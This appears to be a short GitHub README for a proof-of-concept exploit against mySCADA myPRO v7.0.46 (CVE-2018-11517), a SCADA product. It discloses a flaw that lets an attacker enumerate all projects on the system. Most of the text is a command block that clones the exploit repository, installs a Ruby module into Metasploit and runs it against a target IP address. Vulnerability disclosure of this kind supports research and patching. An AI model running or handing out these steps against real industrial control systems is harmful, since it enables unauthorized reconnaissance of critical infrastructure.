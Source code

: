 # mySCADA myPRO 7 - projectID Disclosure

mySCADA myPRO v7.0.46 has another vulnerability to discover all projects in the system.

##### CVE-2018-11517

```
git clone https://github.com/EmreOvunc/mySCADA-myPRO-7-projectID-Disclosure.git
 
cd mySCADA-myPRO-7-projectID-Disclosure/

cp mypro_enum_projectid.rb /usr/share/metasploit-framework/modules/auxiliary/gather/

msfconsole

use auxiliary/gather/mypro_enum_projectid 

set RHOST [IP ADDRESS]

run
```

![alt tag](https://emreovunc.com/images/mySCADA_myPRO7-projectID.png)
-
